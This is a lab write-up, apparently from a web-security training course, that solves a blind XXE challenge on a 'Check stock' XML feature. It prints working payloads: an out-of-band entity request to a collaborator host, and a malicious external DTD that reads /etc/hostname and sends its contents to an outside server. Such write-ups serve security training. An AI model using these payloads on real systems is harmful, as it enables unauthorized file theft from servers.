






# Exploiting blind XXE to exfiltrate data using a malicious external DTD
# Objective
This lab has a "Check stock" feature that parses XML input but does not display the result.\
To solve the lab, exfiltrate the contents of the `/etc/hostname` file. 

# Solution
## Analysis
Application has a `Check stock` feature. Data from client to server is sent in XML format. Moreover application have `Submit feedback` feature. Data from client is send in `Content-Type: multipart/form-data;`.

||
|:--:| 
| *Check stock request* |
||
| *Submit feedback request* |

## Exploitation
### Verificationn of blind out-of-band XXE 
The XML parameter injection (out-of-band request) can be performed using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://<id>.oastify.com"> %xxe; ]>
<stockCheck><productId>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

||
|:--:| 
| *XXE injection - out-of-band request* |
||
| *XXE injection - out-of-band request* |

### Data exfiltration via blind XXE using malicious external DTD
Data exfiltration via blind XXE using malicious external DTD can be performed using the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://exploit-<id>.exploit-server.net/malicious.dtd"> %xxe; ]>
<stockCheck><productId>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Exploit server configuration:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://<id>.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;
```

> [!CAUTION]
> This technique might not work with some file contents, including the newline characters for example contained in the `/etc/passwd` file.

||
|:--:| 
| *Exploit server configuration* |
||
| *Blind XXE injection with malicious external DTD* |
||
| *Blind XXE injection with malicious external DTD* |
